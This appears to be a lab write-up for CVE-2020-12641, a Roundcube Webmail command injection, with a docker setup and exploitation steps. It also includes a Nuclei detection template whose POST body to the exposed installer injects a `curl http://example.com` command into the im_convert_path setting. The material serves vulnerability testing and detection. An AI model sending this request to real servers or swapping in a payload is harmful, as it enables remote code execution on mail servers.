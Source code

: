 # CVE-2020-12641 : Roundcube Webmail - Command Injection

## Description:
Roundcube Webmail before 1.4.4 contains a command injection caused by shell metacharacters in configuration settings for im_convert_path or im_identify_path, letting attackers execute arbitrary code, exploit requires attacker to control configuration settings.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2020-12641
- https://github.com/mbadanoiu/MAL-004
- https://github.com/mbadanoiu/CVE-2020-12641

## Vulnerable Setup

- Execute the following commands to start an unconfigured roundcube mailserver:

```
docker compose up --build -d
```

- This vulnerable version of roundcube has the installer exposed via the config setting `$config['enable_installer'] = true;` in `config.ini.php`.

## Exploitation Steps

- Visit: http://localhost/roundcube

- This will display the login page the config settings can be found at http://localhost/roundcube/installer/

- By making a POST request to http://localhost/roundcube/installer/index.php with the body parameter `_im_convert_path` it is possible to inject a system command into the `config.ini.php` file on the server.

- When any user opens any email containing a "non-standard" image this config setting will get executed, as an example an attacker can send a TIFF image to the user and roundcube will attempt to convert it to "JPG" format triggering the arbitrary code in `im_convert_path`

## Steps to Write Nuclei Template

**HTTP Request Section**

```
http:
  - method: POST
    path:
      - "{{BaseURL}}/installer/index.php"
      - "{{BaseURL}}/roundcube/installer/index.php"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: _step=2&_product_name=Roundcube+Webmail&_support_url=&_skin_logo=&_temp_dir=%2Fvar%2Fwww%2Fhtml%2Froundcube%2Ftemp%2F&_des_key=aaCGmrf1vc2NIJ8whIA3aG9x&_enable_spellcheck=1&_spellcheck_engine=googie&_identities_level=0&_log_driver=file&_log_dir=%2Fvar%2Fwww%2Fhtml%2Froundcube%2Flogs%2F&_syslog_id=roundcube&_syslog_facility=8&_dbtype=mysql&_dbhost=localhost&_dbname=roundcube&_dbuser=roundcube&_dbpass=roundcube&_db_prefix=&_default_host%5B%5D=localhost&_default_port=143&_username_domain=&_auto_create_user=1&_sent_mbox=Sent&_trash_mbox=Trash&_drafts_mbox=Drafts&_junk_mbox=Junk&_smtp_server=localhost&_smtp_port=587&_smtp_user=%25u&_smtp_pass=%25p&_smtp_user_u=1&_smtp_log=1&_language=&_skin=elastic&_mail_pagesize=50&_addressbook_pagesize=50&_prefer_html=1&_htmleditor=0&_draft_autosave=300&_mdn_requests=0&_mime_param_folding=1&_plugins_autologon=autologon&_plugins_enigma=enigma&_plugins_zipdownload=zipdownload&submit=UPDATE+CONFIG&G&_im_convert_path=curl+http%3a//example.com
```

- This sends a POST request to both `/installer/index.php` and `/roundcube/installer/index.php`.

- The POST request body is a submission of the `_step_2` form with the standard configuration options plus `&_im_convert_path=curl+http%3a//example.com` which will inject this `curl` command into `$config['im_convert_path']` of the `/var/www/html/roundcube/config/config.inc.php` file

- Each time users of the Roundcube webmail server recieve an email containing a "non-standard" image, Roundcube will attempt to convert it to "JPG" using this config line.

**Matchers Section**

```
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        words:
          - 'Roundcube Webmail Installer'
          - 'The config file was saved successfully'
        condition: and
        part: body
```

- `type: status` ensures that the server responded with a successful `200 OK` status.

- `type: word & condition:` and ensures all the expected content is present in the body.

## Nuclei Template URL : [CVE-2020-12641](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-12641.yaml)

## Nuclei Command :

```bash
nuclei -u http://localhost -id CVE-2020-12641 -vv
```

![image](https://github.com/user-attachments/assets/1880e248-0629-4abe-bccb-24fa857282e5)
